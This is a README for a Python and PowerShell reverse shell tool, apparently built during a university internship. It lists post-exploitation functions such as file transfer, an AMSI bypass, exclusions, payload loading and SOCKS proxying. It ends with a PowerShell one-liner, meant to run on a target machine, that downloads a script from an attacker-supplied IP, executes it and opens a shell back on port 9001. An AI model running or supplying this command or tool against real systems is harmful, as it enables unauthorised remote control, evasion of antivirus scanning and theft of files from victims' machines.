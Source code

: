 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell. To simply install it:

1.  Clone this repo
2.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines, to prevent data loss, on each message, are sent support text and md5sum to know if the actual file option are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get
### down-file
### load
### amsi-bypass
### exclude
### payload
### socks-start
### socks-stop
### socks
### close


## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>/rev.ps1') IEX; Send-Shell -i <IP> -p 9001
```
